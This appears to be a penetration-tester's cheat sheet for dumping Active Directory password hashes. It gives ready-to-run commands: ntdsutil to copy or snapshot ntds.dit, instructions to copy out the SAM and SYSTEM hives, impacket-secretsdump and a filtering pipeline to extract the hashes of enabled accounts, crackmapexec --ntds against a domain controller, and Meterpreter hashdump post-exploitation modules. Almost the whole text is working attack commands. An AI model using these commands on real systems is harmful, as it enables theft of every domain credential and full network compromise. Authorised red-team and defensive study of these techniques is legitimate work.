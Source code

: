 # Dumping domain hashes

## NTDSutil&#x20;

```
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
-- or --

ntdsutil
> snapshot
> activate instance ntds
> create
> mount {GUID}
```

Then browse to the mounted directory in the C:/  and copy out the ntds.dit && SAM & SYSTEM file to your prefered location

To delete the snapshot after:

```
delete {GUID}
```

Then pull the hashes out with Impacket's Secretdump

```
impacket-secretsdump -system SYSTEM -ntds ntds.dit -hashes lmhash:nthash -user-status -outputfile myhashes local
```

The tidy up the hashes

```
cat myhashes.ntds | grep -v "$:" | grep "status=Enabled" | cut -d'\' -f2 | cut -d"(" -f1
```

## crackmapexec

```
crackmapexec smb <DC-IP> -u <user> -p <password> --ntds
```

## Meterpreter

Once you have your Meterpreter shell from your exploit of choice, such as PSEXEC

```
run post/windows/gather/smart_hashdump
--- or ---
run post/windows/gather/credentials/domain_hashdump
```
